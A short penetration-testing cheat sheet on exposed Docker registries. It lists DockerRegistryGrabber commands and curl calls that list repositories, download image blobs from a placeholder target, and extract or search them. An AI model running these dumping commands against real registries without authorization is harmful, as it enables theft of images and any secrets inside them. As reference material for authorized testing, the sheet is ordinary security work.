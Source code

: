 # Exposed Docker Registry Penetration Testing

## Port: 5000 (Usually)

## Tool: https://github.com/Syzik/DockerRegistryGrabber

### Usage:

## TIP: We use -U and -P as well as -A flags to perform authenticated enumeration and dumping

 - python3 drg.py http://TARGET.COM --list (List repositories)

 - python3 drg.py http://TARGET.COM --dump TARGET_REPOSITORY (Dump this repository)

 - python3 drg.py http://TARGET.COM --dump-all (Dump the entire registry)

## Authenticated Usage example:

 - python3 drg.py https://TARGET.COM -A 'Auth BEARER TOKEN' --list (Authenticate with an auth token)

 - python3 drg.py https://TARGET.COM -U USERNAME -P PASSWORD --list (Authenticate with credentials)

## Alternative tool: cURL

### Usage:

 - curl -s http://TARGET.COM:5000/v2/_catalog (List repositories)

 - curl -s http://TARGET.COM:5000/v2/ubuntu/tags/list (Get tags of a repository)

 - curl -s http://TARGET.COM:5000/v2/ubuntu/manifests/latest (Get manifests)

 - curl http://TARGET.COM:5000/v2/ubuntu/blobs/sha256:SHA256_HASH --output blob1.tar (Download one of the previously listed blobs)

 - tar -xf blob1.tar (Inspect the insides of each blob)

## OR

 - zgrep -la STRING blob1.tar (Use this to search for something specific)
